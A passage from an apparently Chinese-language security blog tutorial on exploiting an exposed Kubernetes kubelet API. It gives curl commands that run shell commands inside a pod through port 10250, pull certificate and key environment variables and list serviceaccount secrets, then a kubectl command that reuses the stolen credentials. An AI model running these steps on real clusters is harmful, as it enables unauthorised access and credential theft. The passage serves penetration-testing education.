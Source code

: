 使用以下命令检查 env：

```
curl -k -XPOST "https://k8-node:10250/run/kube-system/kube-dns-5b1234c4d5-4321/dnsmasq" -d "cmd=env"


```

查看返回内容中的 KUBLET\_CERT，KUBLET\_KEY 和 CA\_CERT 环境变量

![](https://blog.riskivy.com/wp-content/uploads/2019/02/39.png)

在获取到认证信息后，需要在 `env` 中找到 kubernetes API server。并非开放了 10250 端口的主机

```
KUBERNETES\_PORT=tcp://x.x.x.x:443
or
KUBERNETES\_MASTER\_NAME: x.x.x.x:443


```

下载 kubectl 后，利用获取到的密钥和证书对 kubernetes API server 进行访问

```
kubectl --server=https://1.2.3.4 --certificate-authority=ca.crt --client-key=kublet.key --client-certificate=kublet.crt get pods --all-namespaces


```

##### 4.3.2 通过 mount 获取信息

如果在环境变量中并未发现认证信息，再次查看是否存在挂载目录

`curl -k -XPOST "https://k8-node:10250/run/kube-system/kube-dns-5b1234c4d5-4321/dnsmasq" -d "cmd=mount"`

```
cgroup on /sys/fs/cgroup/devices type cgroup (ro,nosuid,nodev,noexec,relatime,devices)
mqueue on /dev/mqueue type mqueue (rw,nosuid,nodev,noexec,relatime)
/dev/sda1 on /dev/termination-log type ext4 (rw,relatime,commit=30,data=ordered)
/dev/sda1 on /etc/k8s/dns/dnsmasq-nanny type ext4 (rw,relatime,commit=30,data=ordered)
tmpfs on /var/run/secrets/kubernetes.io/serviceaccount type tmpfs (ro,relatime)
/dev/sda1 on /etc/resolv.conf type ext4 (rw,nosuid,nodev,relatime,commit=30,data=ordered)
/dev/sda1 on /etc/hostname type ext4 (rw,nosuid,nodev,relatime,commit=30,data=ordered)
/dev/sda1 on /etc/hosts type ext4 (rw,relatime,commit=30,data=ordered)
shm on /dev/shm type tmpfs (rw,nosuid,nodev,noexec,relatime,size=65536k)


```

如上红色标记部分显示，可以看到 serviceaccount 的挂载目录，接着执行

```
curl -k -XPOST "https://k8-node:10250/run/kube-system/kube-dns-5b1234c4d5-4321/dnsmasq" -d "cmd=ls -la /var/run/secrets/kubernetes.io/serviceaccount"


```
